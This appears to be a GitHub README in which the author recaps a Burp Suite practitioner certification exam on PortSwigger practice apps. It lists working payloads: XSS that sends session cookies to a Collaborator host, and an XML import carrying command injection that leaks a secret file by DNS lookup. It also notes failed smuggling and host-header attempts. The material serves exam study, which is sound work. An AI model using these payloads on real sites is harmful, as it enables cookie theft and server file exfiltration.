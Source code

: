# BSCP-Recapitulation
This Repo contains Burp Suite Certification Practitioner Recapitulation of Mine


## BSCP 1<sup>st</sup> Exam
I have taken my first BSCP exam on **December 24th, 2024**. I failed on App 2 without success to address any vulnerabilities. Please find the details in the following points:

### Application 1 - EXPLOITED !!!
- Stage 1:
  - Features:
    The features mentioned here are the visible functional that we can exploit for stage 1
    1. Search in Homepage
    2. Comment on the Blog Post
    3. Login Form
    4. Forgot Password
   
  - Vulnerability: XSS with Blocked Tags
  - How to trigger for the first time:
    ```javascript
    <script>alert(1)</script>
    ```
  - After scanning the allowed tags and events, I used this payload to ensure it works:
    ```javascript
    <body onload=document.location='https://collaborator.oastify.com/?c='+document.cookie tabindex=1>
    ```
  - I attached this *URL Encoded* payload to the Exploit Server:\
    a. Bare Payload
    ```javascript
    <script>Document.location = 'https://WEB_ID.web-security-academy.net/?query=<body onload=document.location='https://collaborator.oastify.com/?c='+document.cookie tabindex=1>#x';</script>
    ```
    b. URL encoded Payload (You can copy the URL from HTTP history )
    ```javascript
    <script>Document.location="https://WEB_ID.web-security-academy.net/?searchTerm=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fcollaborator.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie+tabindex%3D1%3E#x"</script>
    ```

- Stage 2:
  - Features:
    The features mentioned here are the additional visible functional after passing the `stage 1`
    1. Update Email
       
  - Vulnerability: JSON `roleId` in Response Body of Update Email.
  - How to Exploit:
    1. Send this request to the Intruder
    2. Brute the `roleId`
    3. Observe the result with statusCode `302`
   
- Stage 3:
  - Features:
    The features mentioned here are the visible functional in `Admin Panel` Menu
    1. XML User Import
  - Vulnerability: XXE Injection
  - How to Exploit:
    I used the following payload to exploit this vulnerability (I URL-Encoded the Ampersand(&) character):
    ```XML
    <?xml version="1.0" encoding="UTF-8"?>
    <users>
      <user>
        <username>Exp1</username>
        <email>exp1@domain.com</email>
      </user>
     <user>
        <username>Exp2</username>
        <email>exp2@example.com%26`nslookup -q=cname $(cat /home/carlos/secret).bfuxae8oi1ac1lrm5l2hgmwh68c00qof.oastify.com`</email>
      </user>
    </users>
    ```

### Application 2 - UNEXPLOITED 😢
- Stage 1:
  - Features:
    The features mentioned here are the visible functional that we can exploit for stage 1
    1. Search in Homepage
    2. Login Form
    3. Forgot Password
       
  - Walkthrough:
    1) I have Performed Host Header Attack using the following kind of techniques:
       - Enumerate using IP address: **NOT VULNERABLE**
       - Exploit using `X-headers`: **NOT VULNERABLE** (Not Reflected to the Exploit Server)
       - Exploit by supplying an absolute URL in the request line as follows `GET https://WEB_ID.WEB_ID.web-security-academy.net/`: **NOT VULNERABLE**. Please refer to [this lab](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing)
       - Exploit using duplicated host > **NOT VULNERABLE**
         > Not Reflected to the Exploit Server
       - Exploit using connection state > **NOT VULNERABLE**
         > it seems it was not able to use the connection header. Since `Connection` was not reflected in the response.
    2) Brute forcing user > **NOT VULNERABLE**.
         > There is no response with statusCode `302`)
    3) <a name="walkthrough-number-3"></a>I have found a different `Response Message` in the **Forgot Password** feature that indicates whether the user exists.
    4) I have performed CSRF Attack:
       - modified the CSRF token: **NOT VULNERABLE**
       - Removed CSRF token and Parameter: **NOT VULNERABLE**
       - swap the CSRF token with the value from the other session: **NOT VULNERABLE**
    5) Web Cache: **NOT VULNERABLE** (There is no `Tracking.js` and no `Cache` header in Response).
    6) I Have Performed HTTP Request Smuggling:
       - unable to use `CL` and `TE` Headers in a request: **NOT VULNERABLE** (Indicates we can direct to use **H2 or HTTP2** Techiniques)
       - Performed H2.TE; H2.CL; H2 Smuggling CRLF; CL.0 Req: **NOT VULNERABLE** (always GET `200` response, But It seems I have not exploited these techniques correctly).
    7) I have scanned using the `Launch All Scans` option in the **HTTP Request Smuggler** Extension. In addition, I only got a `dual path` vulnerability. In my opinion, we cannot consider that scan result as a potential vulnerability.
       > I will describe the reason in the next point).

  - Potential Vulnerability:
    In this section, I am trying to summarize or classify any potential vulnerabilities and any techniques that I have not performed prior BSCP Exam.
    1) H2 Request Splitting via CRLF Injection: **The Most potential vulnerability**.\
       <p> I have tried to find the potential labs in **Port Swigger Academy** that have similarities with my case in the exam. And I have found the closest potential in [this lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection) with `H2 Request Splitting via CRLF Injection` technique. The reason is When solving that lab, I only got the `dual path` vulnerability in the scan result compared to other `HTTP/2 Request Smuggling` techniques</p>
    2) HTTP/2-TE. Please refers to [this lab](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling).
    3) Maybe Obfuscating `TE` Header using payload in **BotesJuan**'s Repo would be a good option.
       > Please note not to duplicate this header. Just use 1 `TE` Header since duplicated `TE` Header is not allowed).
    
    4) Perform H2.CL Technique refers to [this lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling).
    5) Perform CL.0 Technique refers to [this lab](https://portswigger.net/web-security/request-smuggling/browser/cl-0/lab-cl-0-request-smuggling).
    6) Brute Force the **Password** using the potential `usernames` based on the `Walkthrough` [number 3](#walkthrough-number-3).

    

    
     
